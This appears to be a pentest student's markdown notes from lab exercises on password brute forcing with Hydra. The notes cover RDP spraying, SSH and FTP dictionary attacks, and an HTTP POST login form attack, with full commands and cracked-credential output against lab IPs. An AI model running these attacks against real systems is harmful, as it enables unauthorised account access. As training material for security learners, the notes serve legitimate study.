


# Spraying a password on RDP service
```
kali@kali:~$ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
...
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:14344399/p:1), ~3586100 tries per task
[DATA] attacking rdp://192.168.50.202:3389/
...
[3389][rdp] host: 192.168.50.202   login: daniel   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] host: 192.168.50.202   login: justin   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
...
```


### Checking if target is running a SSH service
```
kali@kali:~$ sudo nmap -sV -p 2222 192.168.50.201
...
PORT   STATE SERVICE
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
```

# Unzipping Gzip Archive and attacking SSH
```
kali@kali:~$ cd /usr/share/wordlists/

kali@kali:~$ ls
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz

kali@kali:~$ sudo gzip -d rockyou.txt.gz

kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.50.201:22/
[2222][ssh] host: 192.168.50.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```

# Spraying a password on RDP service
```
kali@kali:~$ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
...
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:14344399/p:1), ~3586100 tries per task
[DATA] attacking rdp://192.168.50.202:3389/
...
[3389][rdp] host: 192.168.50.202   login: daniel   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] host: 192.168.50.202   login: justin   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
...
```


# HTTP POST Login Form
Successful Dictionary Attack on the Login Form

Login page of TinyFileManager


Intercepted Login Request


Intercepted Login Request

The highlighted text appears after a failed login attempt. We'll provide this text to Hydra as a failed login identifier.

In more complex web applications, we may need to dig deeper into the request and response or even inspect the source code of the login form to isolate a failed login indicator, but this is out of the scope of this Module.


Successful Dictionary Attack on the Login Form
```
kali@kali:~$ hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.50.201:80/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid username or password
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 16 active
[80][http-post-form] host: 192.168.50.201   login: user   password: 121212
1 of 1 target successfully completed, 1 valid password found
...
```

Successful Login



# FTP

https://medium.com/@WriteupsTHM_HTB_CTF/htb-login-brute-forcing-2411255b41e5
Using -C parameter 
 -C FILE   colon separated "login:pass" format, instead of -L/-P options


```
sudo hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 21 ftp://192.168.224.149
```

using user and password list
```
sudo hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt -s 21 ftp://192.168.224.149 
```

